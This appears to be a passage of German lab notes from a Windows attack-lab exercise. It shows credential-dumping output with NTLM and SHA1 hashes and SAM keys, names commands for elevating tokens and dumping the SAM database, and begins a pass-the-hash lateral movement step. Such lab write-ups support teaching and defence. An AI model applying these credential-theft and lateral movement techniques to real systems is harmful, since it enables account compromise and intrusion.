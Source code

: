 \begin{lstlisting}[language=bash]
    Authentication Id : 0 ; 6453349 (00000000:00627865)   
    Session           : Interactive from 2
    User Name         : backdoor
    Domain            : Client1
    Logon Server      : Client1
    Logon Time        : 11/12/2021 4:46:23 PM
    SID               : S-1-5-21-1681067654-3552921923-1543340101-1005
        msv :
         [00000003] Primary
         * Username : backdoor
         * Domain   : Client1
         * NTLM     : a9fdfa038c4b75ebc76dc855dd74f0da
         * SHA1     : 9400ae28448e1364174dde269b2cce1bca9d7ee8
    [CUT]
\end{lstlisting}

\begin{itemize}
    \item token::elevate - \textbf{Credentials auslesen des lokalen SAM}
    \item lsadump::elevate - \textbf{Permissions elevaten}
    \begin{itemize}
        \item process token: token für user auf mascine
        \item thread token: token für NT Auth/System, Maschine
    \end{itemize}
    \item lsadump::sam - \textbf{SAM Database mit NTLM und so dumpen}
\end{itemize}

\begin{lstlisting}[language=bash]
    Domain : Client1
    SysKey : 2d102d4d76b467c3aa870e40d01a3f55
    Local SID : S-1-5-21-1681067654-3552921923-1543340101

    SAMKey : d777e5a8096311cf0c6dd57edebad324

    RID  : 000001f4 (500)
    User : lab_admin
    Hash NTLM: f6e934388fc080ee870bd0637e4992f9
    [CUT]
\end{lstlisting}

Logs anschauen, da ist vieles drin wie username, dmain, credentials, UND NTLM HASHES, die sind am wichtigsten. kann für pass the hash attacken genutzt werden



\subsection{Step 5A: Lateral Movement to FS1 via Domain User}
In den vorangegangenen Übungen konnten wir uns lokale Administratorrechte auf dem Windows 10-Client verschaffen und anschließend alle auf diesem Rechner gespeicherten Anmeldeinformationen auslesen. Die gesammelten Daten enthielten unter anderem den NTLM-Hash des Domänenbenutzers "aalfort", der lokaler Administrator auf dem Rechner FS1.winattacklab.local ist.

